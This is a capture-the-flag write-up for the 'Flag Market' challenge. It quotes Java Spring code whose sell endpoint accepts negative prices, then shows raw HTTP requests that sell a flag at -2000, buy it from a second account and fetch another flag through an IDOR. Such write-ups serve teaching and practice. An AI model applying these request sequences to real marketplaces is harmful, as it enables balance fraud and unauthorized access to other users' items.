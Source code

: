 # Flag Market

The goal of the challenge was to buy a flag. However, our balance starts from 0.

We could see that when selling the flag, the relevant code does not validate that the flag price is positive.

```java
@PostMapping("/sell")
public String sellFlag(@Valid Flag flag, BindingResult bindingResult, Model model, Principal principal) {
    Flag flagExists = flagService.findByName(flag.getName());
    if (flagExists != null) {
        bindingResult.rejectValue("name", "error.user",
                "There is already a flag with the name provided");
    }
    if (principal != null) {
        User user = userService.findByUsername(principal.getName());
        model.addAttribute("current_user", user);
        flag.setSeller(user);
        flagService.saveFlag(flag);
    }
    return "redirect:flag/" + flag.getSlug();
}
```

Thereafter, the flag is saved into the database.

```java
@Override
public void saveFlag(Flag flag) {
    flag.setSlug(UUID.randomUUID().toString());
    flag.setPinned(false);
    flag.setHidden(true);
    flagRepository.save(flag);
}
```

We could thus sell a flag with a negative price. In the `buyFlag` function, this negative price is subtracted from `buyerBalance`, increasing the buyer's total balance.

```java
@Override
public Boolean buyFlag(Flag flag, User buyer) {
    if (buyer.getPurchasedFlagsCount() >= 2) {
        return false;
    }
    if(buyer.getBalance() > flag.getPrice()) {
        Integer buyerBalance = buyer.getBalance();
        User seller = flag.getSeller();
        Integer sellerBalance = seller.getBalance();
        buyer.setBalance(buyerBalance - flag.getPrice());
        seller.setBalance(sellerBalance + flag.getPrice());
        userService.updateUser(seller);
        userService.updateUser(buyer);
        userService.increasePurchasedFlagCountById(buyer.getId());
        return true;
    } else {
        return false;
    }
}
```

1\) Sell a flag with a negative price

```http
POST /sell HTTP/1.1
Host: flag-market.yactf.ru
Cookie: JSESSIONID=C711887D4DC8C674B65CEE65EE3E630D
Content-Length: 93
Origin: https://flag-market.yactf.ru
Content-Type: application/x-www-form-urlencoded
Connection: close

_csrf=...&price=-2000
```

2\) Buy the flag from a second account

3\) Perform a simple IDOR to get the flag with `flag_id=3`

```http
POST /buy HTTP/1.1
Host: flag-market.yactf.ru
Cookie: JSESSIONID=C748582E79B81447C43554243CCDC403
Content-Length: 52
Origin: https://flag-market.yactf.ru
Content-Type: application/x-www-form-urlencoded
Connection: close

_csrf=4ea95070-85b4-4f65-86f6-7c384cd5dbad&flag_id=3
```
